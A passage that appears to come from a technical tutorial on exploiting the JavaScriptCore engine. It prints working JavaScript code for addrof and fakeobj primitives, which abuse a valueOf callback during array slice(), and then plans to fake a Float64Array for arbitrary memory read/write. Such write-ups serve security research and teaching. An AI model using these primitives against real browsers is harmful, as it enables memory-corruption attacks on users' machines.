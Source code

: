     3. Call slice() on the target array the object from step 2 as one of
       the arguments

For completeness, the implementation of both primitives is printed below.

    function addrof(object) {
        var a = [];
        for (var i = 0; i < 100; i++)
            a.push(i + 0.1337);   // Array must be of type ArrayWithDoubles

        var hax = {valueOf: function() {
            a.length = 0;
            a = [object];
            return 4;
        }};

        var b = a.slice(0, hax);
        return Int64.fromDouble(b[3]);
    }

    function fakeobj(addr) {
        var a = [];
        for (var i = 0; i < 100; i++)
            a.push({});     // Array must be of type ArrayWithContiguous

        addr = addr.asDouble();
        var hax = {valueOf: function() {
            a.length = 0;
            a = [addr];
            return 4;
        }};

        return a.slice(0, hax)[3];
    }


----[ 4.3 - Plan of exploitation

From here on our goal will be to obtain an arbitrary memory read/write
primitive through a fake JavaScript object. We are faced with the following
questions:

    Q1. What kind of object do we want to fake?

    Q2. How do we fake such an object?

    Q3. Where do we place the faked object so that we know its address?

For a while now, JavaScript engines have supported typed arrays [18], an
efficient and highly optimizable storage for raw binary data. These turn
out to be good candidates for our fake object as they are mutable (in
contrast to JavaScript strings) and thus controlling their data pointer
yields an arbitrary read/write primitive usable from script. Ultimately our
goal will now be to fake a Float64Array instance.

We will now turn to Q2 and Q3, which require another discussion of JSC
internals, namely the JSObject system.
